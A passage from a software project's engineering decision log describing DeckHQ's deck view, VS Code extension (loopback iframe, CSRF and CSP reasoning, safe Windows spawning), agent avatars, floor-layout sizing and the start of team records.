behaviour `deckhq waiting` has had since WP-42.

### 103.3 One cursor rule, and the reason it has two forms

"Identically" is only meaningful if one function decides what "the selected one" is. That is
`queueCursor()`, and it has a sibling, `queueAnchor()`, which returns `null` where the cursor
returns the oldest item.

The distinction is not academic — it was a live bug for exactly one screenshot. The cursor falls
back to the oldest item so `1`, `2` and `3` always have something to act on while a queue is on
screen. Stepping from *that* meant the very first `J` skipped past the oldest item to the second
one. `move()` therefore steps from the anchor ("where the user actually is, or nowhere"), and the
number keys read the cursor ("where the user is, or the oldest"). Both are pinned in
`test/unit/deck-keys.test.mjs`.

`J`/`K` clamp rather than wrap, unchanged from the pre-WP-10 floor: the queue is a list of debts in
age order, and wrapping makes "keep pressing `J`" silently start again.

### 103.4 The chip is ringed only when somebody really is selected; the deck row always has a cursor

`05` §3.1: "The selected chip is ringed and the corresponding person on the floor is ringed at the
same moment, which is what teaches the mapping between the two." That sentence forbids ringing a
chip when the floor is ringing nobody, so the strip paints `selectedId` and only `selectedId`.

The deck is a table, and a table has a cursor row whether or not anything is open — that row is
where its keys act, so drawing it is a statement about the deck rather than a claim about the
floor. The two therefore disagree on purpose when the panel is shut, and `syncSelection()` says so
in as many words.

### 103.5 `Tab` is claimed only when focus is on the floor

`05` §3.2 says `Tab` toggles the deck. `Tab` is also how a keyboard user moves between controls,
and `05` §10 is "every action reachable by keyboard, with a visible focus ring" — so taking `Tab`
globally would have satisfied §3.2 by breaking §10 on the same page.

It is claimed only when `document.activeElement` is the body or inside `.stage` (the canvas, the
deck), and never with `Shift` held. Tabbing out of the strip, the header or the panel behaves
exactly as it did; `Shift+Tab` is always the browser's; and from inside the deck, `Tab` returns to
the floor while `Shift+Tab` leaves for the panel.

### 103.6 Five labelled columns, and the MK tag rides inside WHO

§3.2's sketch draws six columns, one of which (the MK tag) has no heading, plus the state glyph in
a seventh. A column header a screen reader reads as empty is worse than no column, so the deck
ships the five the workplan names — WAITING · WHO · PROJECT · LAST WORD · TOKENS — with the tag as
a dim span inside WHO and the glyph inside WAITING, in the same visual order the sketch has them.
`deckhq ls` keeps its own `ID` column, for the reason §93 gives: there you type an id, here you
press `J`.

WHO is the row header (`<th scope="row">`), so reading down LAST WORD still says whose last word it
is. The rule between the two groups is a `border-top` on the second `<tbody>`, not a row of
dashes — a screen reader should not be read a line of hyphens.

### 103.7 `1 Reply` opens the panel; `2` and `3` do not

"`1`/`2`/`3` act on the selected row without opening it" holds for two of the three. `1 Reply`
focuses the composer, and the composer is in the panel: there is nowhere else to type. So `1` on a
deck row the panel is not showing opens it first, then focuses. `2 Approve` sends to the named row
without touching the open row's composer, and `3` acts on the named row outright.

This is the one change to `public/panel.js`'s public surface: `performAction(action, targetId)` and
`pressNumberKey(key, targetId)` now take an optional row. There is still exactly one
`fetch('/api/ack')` in the client, still inside `performAction()`, and it is still reached only
from a button, a number key, or the `A`/`B` shortcuts.
`test/unit/panel-invariant.test.mjs` passes unchanged.

### 103.8 The strip has no scroller, and the accent moved off the clock

§3.1 promises the oldest chip is always leftmost and never scrolls out. The only way to keep that
unconditionally on a narrow window is to have nowhere for it to scroll to, so the strip measures
its chips and collapses the ones that do not fit into a `+N` button that opens the deck. The first
chip is kept even when it alone does not fit; `overflow: hidden` clips it rather than dropping it.

§3.1 also asks for elapsed times past 24 h "in `--accent`". They are not, and the reason is §94.1:
crimson is under the 4.5:1 text floor on every ground in this product, and WP-07 removed the
numeral's licensed exception rather than widening it. The 24-hour signal is carried by a 2 px
crimson rule under the number, with the number itself in `--ink` and bold — which is the remedy
`state-visuals.test.mjs` names in its own failure message ("the waiting clock carries crimson on a
rule, with the words themselves in `--ink`").

### 103.9 Two guarded tests moved, both in the strengthening direction

**`state-visuals.test.mjs` now allows a state colour on a state glyph, and measures it.** WP-10
draws the first state icons that are characters in the DOM rather than paint on the canvas. A glyph
is non-text content under WCAG 1.4.11 and is held to 3:1, not 4.5:1 — which is what the existing
test's own failure message already said ("colour the border, the dot or the icon instead"). The
exemption is a regex matching `.strip-icon` and `.deck-icon` and nothing else, and it is paid for
by a new test that recomputes the contrast of every such rule against every ground it can land on.

That measurement immediately moved a ground. `for_review` is 2.78:1 on `--surface-2` and 2.39:1 on
`--surface-3`, so a chip cannot sit on either. The chip is **inset** into the strip (`--bg` on a
`--surface` bar, hover `--surface`) and the deck's selected row is `--surface` rather than
`--surface-2`. The rule held: the ground moved, not the state colour. A third assertion now says no
chip or deck row may be given any other ground.

**`capture-floor.mjs` grew a third `--press` escape.** `>` is `Tab`, alongside WP-07's `^` (Ctrl)
and `~` (Enter). `docs/media/deck-view.png` is `--press "jj>"`.

### 103.10 What this cost, and what is not covered

One new client module, `public/deck.js`, whose pure half — the ordering, the formatting and the two
render functions — is what the tests drive, and whose controller half is the wiring. 36 new tests
across `deck-view.test.mjs` and `deck-keys.test.mjs`. 778 tests to 814.

Not covered by a test, and named here rather than left implied:

- **The fit pass.** `fitStrip()` reads `offsetWidth` and `clientWidth`, which a DOM stub cannot
  produce honestly. It was checked by capture instead: at 820 px the demo floor's seven chips
  collapse to two and a `+5`, with the oldest still leftmost.
- **The chip enter and leave animations.** §9's "chips slide in from the right; the departing chip
  collapses its width to zero" is CSS plus a `setTimeout`, both invisible to the unit suite. The
  reduced-motion path removes the node immediately and is the branch that matters.
- **`ResizeObserver`.** Absent in older embedders; the strip then keeps whatever fit at first paint
  rather than throwing.

### 103.11 The goldens now carry minute-precision clocks, and stay stable anyway

`demo` and `reference` were regenerated: the strip appears on both, and it pushes the floor down by
its own height, so every pixel below the header moved. That was expected and is the last thing this
package did.

What was not obvious is that the strip puts **minute-precision elapsed times into a golden** for
the first time. The floor's own clocks are coarser at fit scale — the office plate reads
`oldest 1d 2h` and the per-agent badges are suppressed — so until now a golden could go a whole
hour without changing. A chip reading `40m`, `7m` or `just now` changes every minute.

It is stable regardless, and the reason is worth writing down because it is not luck: every capture
starts its **own** daemon, and `demo-floor.mjs` derives every fixture timestamp from `Date.now()` at
that start. An elapsed time in a golden is therefore a function of how long boot plus settle takes
(about seven seconds), not of the wall clock. The margin to the next minute boundary is the
remaining ~50 seconds. Checked three times at different times of day after regenerating: 0 pixels
moved on all four populations, every time.

The thing that would break it is a fixture age that is not a whole number of minutes, which would
put a boundary anywhere in the window. There is not one today.
## 104. WP-31 · The VS Code extension: an iframe rather than a port, and eight decisions the package left open

`08-PLAN-V2-100X.md` B2 and WP-31, `06-ENGINEERING-WORKPLAN.md` WP-31. Shipped as `vscode/`: a
thin extension — seven files of plain CommonJS, no dependencies, no build step — that finds the
daemon on loopback or starts one, opens the floor in a webview panel, and puts the needs-you count
in the status bar. Packaged as a 27 KB `.vsix`, installed with `code --install-extension`, and
verified in a real editor.

**The structural decision: the floor is framed, not re-served.** VS Code's own idiom is
`webview.asWebviewUri`, which would serve `public/` from the `vscode-webview://` origin. That was
rejected. On that origin every request the floor makes for `/api/state` is cross-origin, and every
POST — `/api/ack` above all — is exactly the cross-site request `src/daemon.mjs`'s CSRF guard
exists to refuse. The alternative was to teach the guard about `vscode-webview://`, which means
teaching it about an origin whose authority is a GUID assigned by the editor, on a product whose
whole security story is "loopback and same-origin, nothing else". So the panel document is a
wrapper whose only content is an `<iframe src="http://127.0.0.1:<port>/">`. Inside the frame the
floor keeps its own origin: its requests are same-origin, they carry `Sec-Fetch-Site:
same-origin`, and the guard passes them untouched.

**Nothing in `src/` changed.** The brief allowed an explicit, documented, tested allowance for a
`vscode-webview://` origin if the guard blocked the panel. It does not, so none was added, and
`test/integration/vscode-webview.test.mjs` asserts the opposite in both directions: that a POST
carrying `Origin: vscode-webview://…` is still **403**, and that the floor's own static response
carries no `X-Frame-Options` and no `frame-ancestors` — the two headers that would blank the panel
silently if anyone ever added them.

**The panel's CSP is four directives.** `default-src 'none'` (the wrapper loads no image, font,
style or connection of its own), `frame-src http://127.0.0.1:<port>` — one origin, the exact port
the daemon answered on — and a nonce for the one style block that sizes the frame and the one
script that moves it. No `unsafe-inline`, no `unsafe-eval`, no wildcard. That script's whole body
is a `message` listener that accepts one shape, checks the URL begins `http://127.0.0.1:`, and
assigns `iframe.src`; it exists so a second `Show waiting` can move the frame to another agent
without tearing down the floor's SSE stream and animation loop.

### The decisions the package did not specify

**1. Auto-start is on by default, and a started daemon outlives the window.** WP-31 says "start the
daemon", and the extension does: on activation it sweeps 4317–4326, and finding nothing runs `npx
--yes deckhq --no-open`. That first start downloads from npm, which is the only moment anything in
this feature reaches the network, and the README says so in the same paragraph as the fix (install
`deckhq` and even that stops). `deckhq.autoStart: false` turns it off. The daemon is spawned
detached and unreferenced, so closing VS Code does not kill it — the product exists because debts
accumulate while you are not looking, and a queue that stops counting when the editor closes is
not that product.

**2. `Stop daemon` stops only a daemon this window started.** There is no shutdown endpoint and
this package did not add one: an HTTP route that kills the process would be reachable by anything
the CSRF guard lets through, for the sake of a menu item. So `stop()` kills the child in this
process's table — `taskkill /T` on Windows, because the child is `cmd.exe` waiting on `npx`
waiting on `node` — and when there is nothing of ours to kill it says which daemon it found and
leaves it alone.

**3. The start command is an argument list, read from user settings only.** `deckhq.startCommand`
is `["npx","--yes","deckhq","--no-open"]`, an array rather than a string so there is no splitting
to get wrong, declared `"scope": "application"` and read through `inspect()` taking `globalValue`
or the default. A repository you cloned to read cannot ship a `.vscode/settings.json` that names
the program this extension spawns. On Windows the command does go through `cmd.exe` — Node refuses
to spawn a `.cmd` without a shell, the fix for CVE-2024-27980 — and `windowsCommandLine()` is what
makes that safe: every token is double-quoted, and a token holding `"`, `%`, `!`, `^` or a line
break is **refused** rather than escaped. Two smaller Windows facts, both found by running it:
`cmd /s /c` strips the first and last character of its command line, so the whole line needs an
outer pair of quotes to sacrifice; and a bare `npx` can resolve to the extensionless POSIX shell
script npm ships beside `npx.cmd`, which `cmd` then tries to run as a batch file, so
`resolveWindowsExecutable()` names the `.cmd` outright.

**4. The count comes from SSE, with the 5 s poll as the fallback.** WP-31 offers either. The
daemon pushes a whole snapshot on every change, so the number moves when a turn ends rather than
up to five seconds later; a 5 s timer runs alongside it and does the three jobs the stream cannot
— find a daemon when none is connected, refresh the count when the stream is not open, and notice
a daemon that went away. A dropped stream is explicitly **not** treated as a dead daemon: a
sleeping machine drops SSE streams, and it is the next poll of `/api/state` that decides.

**5. The status bar line is the status line's line.** `▣ 3 waiting · 1 hand up`, and `▣ clear`
when nothing is owed — the same string `deckhq statusline` renders, asserted against
`renderStatusline()` from `src/cli/statusline.mjs` by a test, so two DeckHQ surfaces on one screen
cannot disagree. Two states the CLI has no need for: `▣ starting…` and `▣ off`. Counting is not
repeated: `counts` comes off the wire as `/api/state` computed it. The one predicate that is
restated, `needsYou`, is asserted against `src/core/model.mjs` across every `ackState` ×
`activityState` pair.

**6. `Show waiting` opens the floor and names the agent in the fragment.** Same limit as `deckhq
open <id>` — §93. The client does not read `#agent=` yet, so today the pick opens the panel and
the selection lands when `public/` honours it. Stated rather than quietly shipped as if it worked.

**7. `retainContextWhenHidden` is on.** VS Code's docs discourage it. The floor is an SSE stream, a
queue and an animation loop; rebuilding it every time the tab loses focus would make the panel
feel like a page rather than a room, which is the one thing this product is trying not to be.

**8. `activate()` returns a read-only view of its own state.** `ready`, `state`, `statusBarText`,
`panelHtml`, all getters over state the extension already holds, none of which can change
anything. It exists because VS Code offers no API to read a status bar item back, and "the status
bar item appears, with the queue in it" is the acceptance criterion.

### Verification

`node scripts/vscode-verify.mjs` starts `scripts/demo-floor.mjs` on a free port, writes a
throwaway workspace pointed at it, and runs `vscode/test/host.js` inside a real editor via `code
--extensionDevelopmentPath --extensionTestsPath`. Six assertions: the extension activates, the
four commands are registered, a daemon is found on loopback, **the status bar item reads the queue
and agrees with the daemon's own counts**, `Open floor` produces one webview tab framing that
loopback origin under the expected CSP, and a second `Open floor` reveals the same panel rather
than stacking another. The demo floor is not optional: this opens a real window on a real desktop,
and it must never be showing somebody's actual project names while it does.

**What that script cannot do, and why.** It runs the working tree, not an installed `.vsix`.
`--extensionTestsPath` is silently ignored unless `--extensionDevelopmentPath` is given as well —
`code --extensionTestsPath=C:/nope.js` exits 0 having done nothing — so an "installed" mode would
report a pass it never earned. The `.vsix` holds the same files byte for byte. The installed build
was checked by hand instead, on 4 September: `code --install-extension deckhq-0.1.0.vsix`
succeeded, `code --list-extensions --show-versions` reported `dkpanseriya.deckhq@0.1.0`, a plain
window's extension host log recorded `ExtensionService#_doActivateExtension DkPanseriya.deckhq …
activationEvent: 'onStartupFinished'`, and its status bar read `▣ 6 waiting · 2 hands up` against
a demo floor with six.

**The screenshot is real, and it took three attempts to take one safely.** `code
--extensionDevelopmentPath` is interactive, so the first approach drove the palette with synthetic
keystrokes and captured the screen rectangle. Both halves of that are wrong: `SetForegroundWindow`
fails from a background process, so the keystrokes went to whatever had focus, and a screen-
rectangle capture photographs whatever window happens to be in front — on this machine it caught
an unrelated application, and that image was destroyed unexamined. The method that works is
`PrintWindow(hwnd, hdc, PW_RENDERFULLCONTENT)`, which renders **one window's own pixels** and can
capture nothing else, driven by a throwaway copy of the extension that opens the panel itself so
no synthetic input is needed at all. `vscode/media/panel.png` is that: the real panel, the demo
floor, and the real status bar item, downsampled 2× from the 2848×1768 the display renders.

**Packaging.** `npx --yes @vscode/vsce package`, never a runtime dependency. `vsce` rewrites
relative README image paths using `repository.url` and **ignores `repository.directory`**, so a
relative `media/panel.png` becomes `…/deckhq/raw/HEAD/media/panel.png` — a path that does not
exist. The README therefore carries the absolute raw URL, and `.vscodeignore` keeps the 555 KB
screenshot out of the package: the Marketplace fetches it from the repository, and nothing in the
extension loads it. Nothing in `vscode/` reaches npm — the root `package.json`'s `files` is an
allow-list of `bin`, `src`, `public`, `README.md`, `LICENSE`, and a test asserts no entry can
match `vscode`.

**Acceptance.** 40 tests: four `EGRESS:` tests that read the extension's own source and fail on any
host but `127.0.0.1`, on `node:https`/`node:dns`/`node:tls`/`fetch(`, on a socket opened outside
`lib/loopback.js`, and on a dependency or build step in the manifest; an `INVARIANT:` test that the
only path the extension ever requests is `/api/events` and that it makes no POST; the two
no-second-representation tests against `model.mjs` and `statusline.mjs`; the port scan against
`source.mjs`; the quick pick's order, fallbacks and truncation; five webview tests including the
CSP shape and an attribute-escape case; four `SECURITY:` spawn tests including seven refused
`cmd.exe` metacharacter cases; SSE frame reassembly against a real loopback server; four monitor
tests covering connect, stream, fallback and disappearance; and the manifest, its four commands,
and the application-scoped start command. Plus four integration tests against a real daemon for
the framing and CSRF facts above, and the six in-editor assertions. 714 tests to 754.

**Left for the owner.** Publishing needs a Marketplace publisher account for `DkPanseriya`, an
Azure DevOps PAT with Marketplace → Manage, and `vsce publish`. The extension is versioned `0.1.0`
independently of the npm package: a Marketplace listing and an npm release are not the same
artifact and should not be forced to move together.

## 105. WP-20 — every agent gets a face, a name and, sometimes, a hat

`docs/plan/04-ENGAGEMENT-AND-GAMIFICATION.md` §4 and
`docs/plan/08-PLAN-V2-100X.md` §7 asked for a stable appearance derived from the
session id, a first name assigned on first sight, and rarity tiers on the agent.
All three shipped. This entry records the places the package had to choose, and
the one document it contradicts.



### The one contradiction: VISUAL-SPEC §3 — **RAISE**

`docs/03-VISUAL-SPEC.md` §3 says, in terms:

> Skin, hair and clothing detail are constant across agents — individuality is
> carried by the name label, not by appearance. This keeps state readable.

WP-20 is the decision to stop doing that, and `08` §7 is where it was taken. The
sentence's *reason* is preserved rather than overturned: what keeps state
readable is that the BODY COLOUR is the state, and that is untouched. The torso
is still filled with `opts.color`, at full opacity, at every LOD, and the state
icon still owns the slot above the head. Both are now tests rather than
conventions:

- `LEGIBILITY: the torso is filled with the state colour, at full strength, for
  every appearance` renders 400 appearances × 3 LODs through a recording context
  and asserts the torso ellipse's fill is exactly the state colour.
- `LEGIBILITY: no appearance mark is a filled shape over the torso` asserts that
  nothing else paints a torso-scale opaque shape on the body centre. Every mark
  is an edge, or is on the head, or is behind everything at 16% opacity.
- `LEGIBILITY: the chrome above the head is byte-identical with and without an
  appearance` renders the same character twice and diffs every call above the
  crown of the head. The icon, the badge and the label do not move.

**Decision needed:** confirm that §3's sentence is superseded and let a later
pass rewrite it, or say that appearance should go back to being uniform.

### Which channel says what, now that there are two

§30 split the channels once already: the torso is the state, and the PROJECT
rides on hair colour, a collar accent and a glyph. WP-20 adds a second,
orthogonal channel — the AGENT — and it had to fit around the first rather than
fight it:

| Channel | Carries | Drawn as |
| --- | --- | --- |
| State | `activityState` | the torso fill, the legs, the arms — unchanged |
| Project (§30) | `projectMk` | hair **colour**, collar dot, shoulder glyph — unchanged |
| Agent (WP-20) | the session id | hair **style**, skin tone, an outfit accent at the hem, glasses, build, and one rarity trait |

Hair splits: the project keeps the colour, the agent gets the silhouette. That
is the only way both channels fit on one head, and silhouette is the half that
survives at 16 px anyway.

**The one exception**, and it is deliberate: the rare `hair` trait replaces the
project's hair colour outright, for about 2.5% of agents. `08` §7 names "a rare
hair colour" as one of the traits, and a rare trait that is not visible is not a
rare trait. The project is still on that agent's collar dot and glyph, so
nothing is lost — only the loudest of the three project marks is borrowed, and
only for one agent in forty.

### Colour discipline, one level stricter than before

§30's guard asked that no project accent be near crimson. The agent tables are
held to more: **no appearance colour may be within 70 in sRGB of ANY state
colour**, not just of crimson. An agent whose hem is the copper of
`needs_input`, standing beside an agent whose torso is that copper, is a
legibility bug even though crimson is nowhere in it. There is a runtime guard in
`palette.js` that throws at import time, and a test that recomputes every
distance. That bar cost the obvious colours: the orange-copper and olive-brown
bands are absent from `AGENT_ACCENTS` entirely, because they are `needs_input`
and `stalled`.

**Skin is held to 40, not 70, and that is a real decision.** Mid-brown is a band
`needs_input` (#B87333) and `stalled` (#9A7B4F) genuinely occupy. A 70 floor
there would have meant the product could not draw a whole range of real faces,
in order to protect a channel that skin does not carry: skin is a fixed shape in
a fixed place — a head above a torso, two hands at the ends of two arms — never
an area that could be read as the body colour. Clothing, which sits ON the body,
keeps the strict bar. Measured: the tightest skin/state pair is 44.5, the
tightest skin/skin pair is 42.9, and the nearest approach to crimson is 52.1 (a
desaturated brown, which flat sRGB distance understates). Crimson keeps a
tighter bar than the other states even for skin — 50 — because it is the one
colour that must mean exactly one thing.

### The tier split, measured rather than asserted

`08` §7 gives the targets: uncommon, rare 5%, legendary 1%, common the
remainder. The tier is drawn from its own value out of a mulberry32 stream
seeded by an FNV-1a hash of the session id, so the split inherits no bias from
the hair/skin/accent draws before it. Over 10,000 fixed synthetic ids
(`session-0` … `session-9999`):

| Tier | Target | Measured | Within ±20% |
| --- | --- | --- | --- |
| common | 74% | 73.56% | yes |
| uncommon | 20% | 20.28% | yes |
| rare | 5% | 5.28% | yes |
| legendary | 1% | 0.88% | yes |

A second, UUID-shaped set of 10,000 ids lands at 73.9 / 20.1 / 5.2 / 0.84 — the
same split, so the spread is a property of the hash rather than of the id
format. The test is deterministic by construction (fixed ids, a pure function),
so it can never be flaky; at n = 10,000 a ±20% band on the 1% tier is only ±2σ,
and a randomly sampled version of this test would fail about one run in twenty.

The appearance hash is deliberately NOT `agents.js`'s `hashString`. That one
seeds seat and lounge-spot assignment; sharing it would mean that tuning where
somebody sits re-rolls everybody's face, and a face that changes is the one
thing this package exists to prevent.

### Names: a third field, not a fourth meaning for `displayName`

An agent is now named on first sight. The obvious implementation — write the
name into `identity.names[id].name` — is wrong twice over. That field is the
user's, and the `INVARIANT` this package was asked for is that identity
assignment touches no user-owned field. And `!a.displayName` is asked as a real
question elsewhere in the tree: `http/routes/actions.mjs` uses it to find the
session a queued rename belongs to, and a daemon-given name answering yes to it
would have silently broken launching an agent with a chosen name.

So `given` is its own key, `displayName` still means exactly "the user chose
this", and `label` is `displayName ?? givenName ?? mk`. A user rename outranks
the given name and does not erase it.

Assignment walks forward from a hash of the agent id through `SHORT_NAMES`,
skipping every name already spoken for by either channel. Past the end of the
list — 60 names, and `08` §0's reference machine has 70 sessions — it falls back
to `Wren 2`, `Wren 3`. A duplicate would be worse than an ugly name: two agents
both called Wren is precisely the confusion the MK tag was invented to end.
Tested to 72 agents with no repeat.

`src/core/identity.mjs` imports `SHORT_NAMES` from `public/names.js`. The
direction matters: `docs/02-ARCHITECTURE.md` §9 forbids `public/**` importing
`src/**`, because the browser cannot reach past `publicDir`. The reverse is
fine, and one list beats two copies.

### Two shapes that were tuned by looking at them

Both changed after the first magnified capture, which is the whole argument for
WP-21 restated in miniature:

- **The outfit accent** started as a band spanning nearly the full torso width
  at the midline. From directly above that reads as a stripe bisecting the body,
  and it pulled the eye off the state colour it was supposed to sit quietly
  inside. It is now half the width and set well back, where it reads as the back
  hem of a shirt.
- **The hat** started as an unlined ellipse a fifth wider than the skull, in the
  agent's accent. It looked like a coloured disc where a head used to be. It is
  now the width of the skull, set back so the brow shows in front of it, with a
  rim line and a darker crown — an object on a head. Glasses are no longer
  suppressed under a hat, because there is a face left to wear them on.

### The one file this package touched that it was told not to

The work order fenced off `public/render/plan.js` and `public/render/scene.js`,
because WP-55 is changing their sizing concurrently. `scene.js` is also the only
place on the floor that hands an identity to the rig, and it passes
`identityFor(agent.projectMk, agent.avatar)` — two primitives, neither of which
is the session id. There is no seam that reaches `drawCharacter` without it, and
without it every agent on the floor is still drawn as the same person.

The change is **three functional lines in `scene.js`, plus a comment, in one
place**: `appearanceFor` added to the existing `palette.js` import,
`const appearance = appearanceFor(agent.id)` beside the existing
`const identity = …`, and `appearance,` in the `drawCharacter` options literal.
It is in `_drawCharacterAt`'s identity block, not in the sizing code WP-55 is
working in, and it re-applies by hand in under a minute if it conflicts.

**Decision needed:** keep it, or drop those three lines and land the wiring in
WP-55's merge instead. Everything else in this package — the model, the names,
the hover card, the panel close-up, the tests — works either way.

### Goldens

Regenerated as the last step of the package. Every drawn character changed, so
`demo`, `single` and `reference` all moved. `empty` has nobody on it and is the
control.

## 106. WP-55 — the building is the size of what is in it

`08` WP-50 fixed what the floor DRAWS: rooms only for active projects, desks
equal to the agents at them, idle repos as a strip. It did not fix what the
floor MEASURES. The envelope was still built to the window — `W = targetAspect
* H`, with `H` pinned to the service column — and the squarifier then stretched
whatever rooms there were to tile the remainder. With one active project that
came out as an 88 x 67 room holding a two-seat table and two people, about 55%
of the screen drawn as pale carpet with nothing on it. §96's own decision 7
called that "honest but sparse" and left denser furnishing to interior design.
It was not a furnishing problem. It was a measuring problem.

**The rule that replaces it:** a room's footprint is derived from its occupants
and their furniture, and the floor's extent is the sum of its rooms, its
service column and its corridors. Nothing is sized by a share of anything.

| reference machine (1600 x 1000) | after WP-50 | after WP-55 |
|---|---|---|
| envelope | 132.4 x 76.3 U | **56.8 x 54.5 U** |
| the one project room | 90.4 x 67.1 U | **16.7 x 22.9 U** |
| bare carpet in it | 93% | **30%** |
| px per unit at fit | 12.1 | **16.9** |
| character body | 30.4 px | **42.6 px** |
| idle-projects strip | 3 rows of 6 crammed columns | **17 readable lines in one column** |
| service column | 38 x 76 U | **34 x 54.5 U** |
| open floor nobody walks on | 0% (it was inside the rooms) | **2%** |

Demo floor: five rooms, every one with an occupant, **24-30% bare carpet** in
each (WP-50: 34-53% by the same measure), character body 41.8 px.

Before and after, both populations: `docs/media/floor-before-wp55.png` /
`docs/media/floor-after-wp55.png` and `docs/media/demo-before-wp55.png` /
`docs/media/demo-after-wp55.png`.

### How bare carpet is measured, and why the old number said 3.3%

§96 reported 3.3% bare on that 88 x 67 room, from the bounding box of its props.
Both numbers are correct and the old one is useless: the room has a plant in
each of three corners at an inset of 1.2 U and a rug stretched to within 4 U of
the walls, so the box covers 97% of a room that is, to the eye, empty.

`floor-integrity.test.mjs` measures `1 - natural / cell` instead —
`room.natural` being the footprint `buildProjectRoom` computes for the room's
own contents before the packer has given it a cell — and asserts it stays at or
under 35% for every project room, at every population and every aspect. That is
the acceptance criterion with nowhere to hide.

### The seven decisions inside it

**1. `natural` no longer includes the rug, and the rug no longer becomes the
room.** WP-50 grew the rug to the cell so a small desk group would not read as
adrift, then measured `natural` from a bounding box that included it — so
`natural` reported the cell straight back to the packer, and every room was a
self-fulfilling prophecy. The cluster is measured on its own now (the wall- and
corner-anchored furniture carries placeholder coordinates until
`resolveAnchors` runs, so it cannot be in that box), and the rug is capped at
1.6x the desk group. A rug defines a group; past that it is floor covering.

**2. A project room carries a plate band, like every other room.** It did not,
so its plate was drawn over the top of whatever the packer's slack happened to
put there. `natural.h` includes it, `place` adds it, and the corner planting
now resolves below it rather than under the room's own name.

**3. The envelope is summed, and the stage's shape is spent on ARRANGEMENT.**
`W = serviceW + CORRIDOR + workingW`, `H = max(serviceColumn, rooms + strip)`.
The target aspect is still honoured — the envelope search picks the
service-column width AND the number of working bands to minimise
`max(W / targetAspect, H)`, which is exactly "draw largest on this stage" — but
it is now choosing between honest layouts instead of stretching one. A floor
with one room has nothing to choose and comes out the shape its contents are;
`plan.test.mjs`'s aspect-monotonicity test therefore asks six projects rather
than one. **Deviation from `05` §3.1's "no letterbox band wider than 8 px":**
there is deliberately ground around the building now, which is `05` §2.2's own
metaphor (a lit plan on a dark studio ground) and is what the drop shadow under
the envelope has always been drawing.

**4. The fit has a ceiling as well as a floor.** `scene.js` clamps the fit scale
so a character body is never over 44 px and never under WP-50's 16 px. Without
the ceiling a quiet machine's small floor was blown up like a poster on a large
display. The leftover viewport is ground, and the camera already centres the
building in it.

**5. A row of rooms is a row of rooms of similar depth.** Cells in a band are
all the band's depth, so a one-table room sharing a band with a fifteen-desk
project starts at twice its own footprint before any width is shared out.
`bandsOf` deals by depth first (`HEIGHT_BAND_RATIO`) and balances width second;
a band is then laid as one row with the widths shared by natural width, and the
squarified treemap is kept for the case a band is carrying more rooms than one
row can hold. Pass one also asks `flowBlocks` for a room-shaped desk cluster
rather than a square one, which is what keeps a two-table project the same depth
as its neighbours instead of standing its benches one above the other.

**6. What the rooms do not need is open floor, and it is drawn as open floor.**
Two places it appears: a bay at the end of a band whose rooms did not need the
whole working width, and a band under the rooms where the service column is
taller than they are. Both are `circulation`, both are `thoroughfare: false`
(a dead-end bay beside the rooms is not a route, and treating it as one puts a
second vertical line beside the spine that the nav graph can never reach), and
together they are held under 20% of the floor by `floor-integrity.test.mjs`.
**This supersedes WP-50's "exactly two pieces of circulation on the whole
floor"**, which was only ever true because the rooms were absorbing the
difference.

**7. The lounge and the strip are sized by their contents too.** A games table
appears when the lounge has more people in it than places to put them, keeping
one whenever anybody is in at all — WP-50's fixed thresholds dealt twelve
benched agents an arcade and made the service column 76 U tall beside a working
floor that needed 20. And the idle-projects strip gives way in ROWS rather than
in columns: with the working floor now the width of its rooms there is one
readable column, and WP-50's three-row cap put seventeen repos on top of each
other in it. `DIRECTORY_MAX_ROWS` is 18; the line height, the per-repo cost and
`DIRECTORY_MAX_H` are unchanged, and the strip is asserted to stay under a
quarter of the floor. Its "shorter than every room" assertion is gone: one
active repo beside seventeen idle ones makes a strip taller than the one room,
and that is the honest picture of that machine.

### The header counts what is drawn

The same floor's header read **`21 at desk · 47 benched`** over a picture with
two people at a desk and twelve in the lounge. Both numbers were true of the
DECK and neither was true of the floor they were printed above, which is the
kind of quiet dishonesty this product cannot afford — the invariant is the only
unforgeable thing in the category and a header that disagrees with the room
under it undermines it for free.

`counts()` gains a `drawn` sub-object and the top-level numbers are untouched,
so the CLI, the deck and the panel keep the counts they mean:

| | header before | header now | what it counts |
|---|---|---|---|
| at desk | 21 | **2** | sessions the floor draws at a desk |
| finished | — | **19** | active-but-`ended` sessions in a repo with no room |
| benched | 47 | **12** | sessions drawn in the lounge |
| went home | — | **35** | benched past `goneHomeDays`; the lounge plate's own number |

Four notes on it.

**The needs-you numeral and its breakdown are unchanged.** They count the deck,
which is right: a session that needs you needs you whether or not the floor has
somewhere to stand it. `drawn.waiting` exists and is exactly `forReview`.

**"Finished" is drawn nowhere and lost nowhere.** Those nineteen sessions are in
the panel, in `deckhq ls`, in the palette, and on the directory line of the repo
they belong to — which carries their count. Naming them in the header is the
point: the alternative to an honest number is not a smaller number, it is a
missing one.

**The rule is stated twice, and there is a test that says so.** `src/core/` and
`public/render/` are either side of the static-file boundary and neither may
import the other, so `model.mjs` carries its own copy of B6's on-the-floor set
and of the gone-home window. §96's decision 3 is the reason that is dangerous —
two representations of one thing, allowed to disagree, is five of this project's
bugs — so `floor-integrity.test.mjs` asserts `counts().drawn` equals the plan's
own drawn totals across every population, including the lounge plate's wording.

**A real bug fell out of writing that test.** `buildPlan` decided who to hide by
asking "is this agent's project IDLE?", and a project the user archived and then
stopped working in is in neither the active nor the idle list — so its finished
sessions were left drawn in a room that does not exist. It asks "does this
agent's project have a ROOM?" now, which is the question it meant.

### Goldens

Regenerated as the last step of the package. Three of the four changed —
`reference`, `demo` and `single`, because the building is a different size and
the header prints different numbers over it. **`empty` is byte-identical
again**, as it was under WP-50: that machine has nobody on the floor, so it
draws the onboarding screen rather than a plan, and every count above it is
nought either way. It is the control, and it is still working.

The check is green against fresh captures on all four at 0 px over tolerance
and **0 px moved at all** — a quieter noise floor than §87 measured, whose
36-pixel header flip does not appear in this build.

`docs/media/` carries the pair for both populations:
`floor-before-wp55.png` / `floor-after-wp55.png` and `demo-before-wp55.png` /
`demo-after-wp55.png`, each taken from the golden itself.

## 107. WP-46 — the team's records, and the one surface this package could not reach

`docs/plan/08-PLAN-V2-100X.md` §9's WP-46 asked for "longest wait ever and its
date, busiest day, most turns in a week, the room that never slept", on the
hover card and in Wrapped, "phrased as the team's record", with "a test [that]
asserts no copy addresses the user in the second person with an implication of
fault". §7 adds the fifth: a falling number, computed from the ledger and never
from the human. All five landed as `records()` in `src/core/ledger.mjs`, on
`GET /api/stats` under `records`, and in `deckhq stats`. Wrapped is WP-27 and is
not in this package.

### The four definitions the plan did not fix, and what they are now

The plan names the records; it does not say what a turn is, what "never slept"
